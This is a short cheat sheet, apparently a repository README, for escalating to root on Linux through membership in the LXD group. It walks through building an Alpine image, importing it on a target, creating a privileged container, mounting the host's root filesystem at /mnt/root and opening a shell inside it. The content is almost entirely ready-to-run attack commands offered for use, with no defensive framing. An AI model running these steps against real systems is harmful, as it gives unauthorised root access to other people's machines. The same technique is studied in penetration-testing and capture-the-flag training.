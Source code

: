# LXD-Privesc-CheatSheet

-if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
-first you wanna build the LXD image locally                                                                                                                                                                                                    
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686    
or
use the one provided given it might be out of date by the time you use it
                                                                                                                                                                                                                                           
-After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
-Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
-If not you will need to add it to usermod                                                                                                                                                                                                 
-Now we run a slew of commands                                                                                                                                                                                                             
-This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpine-v3.12-i868-20200831_1748.tar.gz --alias temper                                                                                                                                                                     
                                                                                                                                                                                                                                           
-If needed setup a pool                                                                                                                                                                                                                    
lxc storage create pool dir                                                                                                                                                                                                                
lxc profile device add default root disk path=/ pool=pool 

-Next we setup the LXD image on local with escalated priv 
-"temper" is the alias of the image
-"hereiam" is the alias of the escalated container
                                                                                                                                                                                                                                           
lxc init temper hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
-Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
-Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
